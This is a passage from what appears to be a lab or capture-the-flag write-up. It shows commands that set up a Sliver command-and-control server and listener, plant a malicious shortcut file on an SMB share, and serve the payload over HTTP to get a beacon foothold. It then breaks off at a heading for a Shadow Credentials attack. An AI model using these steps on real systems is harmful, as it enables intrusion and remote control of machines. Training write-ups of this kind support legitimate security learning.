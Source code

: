 So :

```console
> /opt/tools/sliver/sliver-server_linux
> new-operator --name samy --lhost localhost
> multiplayer

(in another shell) : 

> /opt/tools/sliver/sliver-client_linux import /workspace/sidecar/samy_localhost.cfg
> /opt/tools/sliver/sliver-client_linux
> armory install all
> mtls
```
```bash
# in the smb
> put sidecar.lnk
# in another terminal
python3 -m http.server
```
![alt text](<../assets/image_sidecar/foothold beacon.png>)

And we have our beacon !!

## WS01 ShadowCreds Attack
